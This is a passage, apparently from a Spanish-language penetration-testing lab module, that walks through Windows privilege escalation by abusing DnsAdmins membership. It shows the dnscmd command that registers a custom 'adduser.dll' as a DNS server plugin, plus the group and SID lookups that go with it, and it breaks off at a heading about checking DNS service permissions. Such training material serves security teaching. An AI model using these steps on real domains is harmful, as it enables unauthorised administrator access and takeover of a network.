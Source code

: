 ### Loading DLL as Member of DnsAdmins

```r
C:\htb> Get-ADGroupMember -Identity DnsAdmins

distinguishedName : CN=netadm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
name              : netadm
objectClass       : user
objectGUID        : 1a1ac159-f364-4805-a4bb-7153051a8c14
SamAccountName    : netadm
SID               : S-1-5-21-669053619-2741956077-1013132368-1109           
```

### Loading Custom DLL

Después de confirmar la membresía en el grupo `DnsAdmins`, podemos ejecutar nuevamente el comando para cargar una DLL personalizada.

```r
C:\htb> dnscmd.exe /config /serverlevelplugindll C:\Users\netadm\Desktop\adduser.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.
```

Nota: Debemos especificar la ruta completa a nuestra DLL personalizada o el ataque no funcionará correctamente.

Solo la utilidad `dnscmd` puede ser utilizada por los miembros del grupo `DnsAdmins`, ya que no tienen permiso directo en la clave del registro.

Con la configuración del registro que contiene la ruta de nuestro plugin malicioso configurada y nuestro payload creado, la DLL se cargará la próxima vez que se inicie el servicio DNS. La membresía en el grupo DnsAdmins no otorga la capacidad de reiniciar el servicio DNS, pero es algo que los administradores de sistemas podrían permitir a los administradores de DNS hacer.

Después de reiniciar el servicio DNS (si nuestro usuario tiene este nivel de acceso), deberíamos poder ejecutar nuestra DLL personalizada y agregar un usuario (en nuestro caso) o obtener una reverse shell. Si no tenemos acceso para reiniciar el servidor DNS, tendremos que esperar hasta que el servidor o el servicio se reinicie. Verifiquemos los permisos de nuestro usuario actual en el servicio DNS.

### Finding User's SID

Primero, necesitamos el SID de nuestro usuario.

```r
C:\htb> wmic useraccount where name="netadm" get sid

SID
S-1-5-21-669053619-2741956077-1013132368-1109
```

### Checking Permissions on DNS Service
